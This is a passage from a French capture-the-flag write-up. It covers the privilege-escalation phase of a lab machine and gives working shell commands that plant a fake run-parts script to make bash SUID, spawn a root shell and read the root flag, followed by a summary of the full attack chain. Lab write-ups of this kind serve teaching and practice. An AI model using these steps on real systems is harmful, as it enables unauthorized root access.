 ### 👑 Phase 5 : PATH Hijacking

```bash
# 1. Créer fake run-parts
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts

# 2. Reconnecter SSH (déclenche run-parts)
ssh jkr@10.10.10.138

# 3. Shell root
/bin/bash -p
cat /root/root.txt
```

---

## 🔗 Chaîne d'attaque résumée

<div class="bg-white dark:bg-dark-navbar px-6 py-5 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-4 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Parcours d'attaque complet
    </h3>
    <div class="space-y-4">
        <div class="flex items-start gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500 mt-1">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance et énumération</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → robots.txt → /writeup/ → CMS Made Simple</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500 mt-1">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Exploitation et accès initial</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">CVE-2019-9053 SQLi → Hash cracking → SSH jkr</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500 mt-1">3</div>
            <div class="flex-1">
                <div class="font-bold text-purple-600 dark:text-purple-400">Énumération locale</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Groupe staff → /usr/local/bin writable → pspy monitoring</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-red-50 dark:bg-red-900/20 rounded-lg border-l-4 border-red-500">
            <div class="text-3xl font-bold text-red-500 mt-1">4</div>
            <div class="flex-1">
                <div class="font-bold text-red-600 dark:text-red-400">Escalade de privilèges</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">PATH hijacking → Fake run-parts → SUID bash → Root</div>
            </div>
        </div>
    </div>
</div>

---